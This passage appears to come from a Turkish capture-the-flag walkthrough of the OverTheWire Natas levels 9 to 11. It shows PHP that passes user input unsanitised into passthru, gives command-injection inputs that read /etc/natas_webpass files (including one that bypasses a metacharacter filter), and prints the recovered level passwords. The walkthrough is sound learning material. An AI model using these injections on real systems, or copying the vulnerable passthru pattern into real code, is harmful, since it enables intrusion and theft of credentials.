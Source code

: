  ```php
 <?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

`grep -i $key dictionary.txt` incelediğimizde `$key` değişkenine `biseyler; ls -al #` gibi bir şey girersek php dosyasının olduğu dizini görebiliriz. Bunun gibi hayal gücümüzü kullanarak istediğimiz komutu çalıştırabiliriz.

Uzatmadan `aaa; cat /etc/natas_webpass/natas10 #` gibi bi şey girerek natas 10 şifresine ulaşabiliriz.

```text
natas10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## Level 10 -> Level 11

Bir önceki seviyedeki gibi fakat bash metakarakterleri filtrelenmiş. `; & |` gibi karakterler filtreli. Demek oluyor ki ya başka bir karakter bulacağız yada bu karakterleri kullanmadan şifreyi alacağız.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

`grep -i $key dictionary.txt` deki `$key` yerine "/etc/natas_webpass/natas11" dosyasında arama yapmasını sağlayacak bir girdi verebiliriz. O zaman girdimiz `. /etc/natas_webpass/natas11 #` gibi bir şey olabilir. Nokta bashte herhangi bir karakter demektir.

```text
natas11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```


[1]: (http://natas5.natas.labs.overthewire.org)
[2]: (http://natas6.natas.labs.overthewire.org/includes/secret.inc)
[3]: (http://bilgisayarkavramlari.sadievrenseker.com/2009/04/20/yahut-sifrelemesi-xor-encryption/)
[4]: (http://www.wiki-zero.co/index.php?q=aHR0cHM6Ly9lbi53aWtpcGVkaWEub3JnL3dpa2kvS25vd24tcGxhaW50ZXh0X2F0dGFjaw)
[5]: https://stackoverflow.com/questions/18357095/how-to-bypass-the-exif-imagetype-function-to-upload-php-code